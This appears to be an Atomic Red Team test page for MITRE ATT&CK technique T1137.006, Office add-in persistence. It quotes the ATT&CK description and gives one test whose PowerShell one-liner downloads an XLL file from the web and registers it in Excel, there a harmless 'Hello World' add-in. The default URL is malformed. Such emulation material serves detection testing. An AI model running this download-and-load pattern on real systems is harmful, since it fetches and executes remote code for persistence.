 # T1137.006 - Add-ins
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/006)
<blockquote>Adversaries may abuse Microsoft Office add-ins to obtain persistence on a compromised system. Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins) There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

Add-ins can be used to obtain persistence because they can be set to execute code when an Office application starts. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Code Executed Via Excel Add-in File (Xll)](#atomic-test-1---code-executed-via-excel-add-in-file-xll)


<br/>

## Atomic Test #1 - Code Executed Via Excel Add-in File (Xll)
Downloads a XLL file and loads it using the excel add-ins library.
This causes excel to display the message "Hello World"
Source of XLL - https://github.com/edparcell/HelloWorldXll

**Supported Platforms:** Windows


**auto_generated_guid:** 441b1a0f-a771-428a-8af0-e99e4698cda3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xll_url | url of the file HelloWorldXll.xll | Url | https://https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1137.006/bin/HelloWorldXll.xll?raw=true|
| local_file | name of the xll file | Path | $env:tmp&#92;HelloWorldXll.xll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -c "iwr -URI '#{xll_url}' -o '#{local_file}'; IEX ((new-object -ComObject excel.application).RegisterXLL('$env:tmp\HelloWorldXll.xll'))"
```






<br/>
